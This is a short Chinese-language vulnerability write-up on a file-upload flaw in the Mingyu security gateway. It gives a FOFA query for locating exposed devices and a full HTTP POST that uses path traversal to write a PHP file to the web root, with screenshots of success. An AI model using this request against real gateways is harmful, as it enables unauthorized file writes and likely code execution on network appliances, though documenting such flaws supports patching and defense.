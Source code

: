 <a name="e6Em4"></a>
# 一、漏洞描述
```java
安恒明御安全网关是一个网络安全产品，由安恒信息技术股份有限公司开发和提供。它是一个综合性的安全管理平台，用于保护企业网络免受各种网络威胁的攻击。该产品aaa_local_web_preview端点存在文件上传漏洞。
```
<a name="YpI0q"></a>
# 一、fofa搜索语法
```java
title=="明御安全网关"
```
<a name="TNcUl"></a>
# 二、漏洞复现
```java
POST /webui/?g=aaa_local_web_preview&name=123&read=0&suffix=/../../../test.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=849978f98abe41119122148e4aa65b1a
Accept-Encoding: gzip
Content-Length: 200

--849978f98abe41119122148e4aa65b1a
Content-Disposition: form-data; name="123"; filename="test.php"
Content-Type: text/plain

This page has a vulnerability
--849978f98abe41119122148e4aa65b1a--
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719243407839-8c369c89-062a-44b8-8a46-623764d241d7.png#averageHue=%23fbfafa&clientId=ud521e60a-9dae-4&from=paste&height=563&id=u842a6683&originHeight=704&originWidth=1261&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=144461&status=done&style=none&taskId=u8e2429f2-12e0-40e6-883e-15aa75f4117&title=&width=1008.8)<br />success即代表上传成功，访问/test.php<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719243571952-3286098e-9bf3-4618-b1b4-76a126789c6e.png#averageHue=%23fefefe&clientId=ud521e60a-9dae-4&from=paste&height=303&id=u07ae7eb0&originHeight=379&originWidth=1310&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=11299&status=done&style=none&taskId=ub94632b7-5c27-4542-bf8f-16f9e31fc08&title=&width=1048)






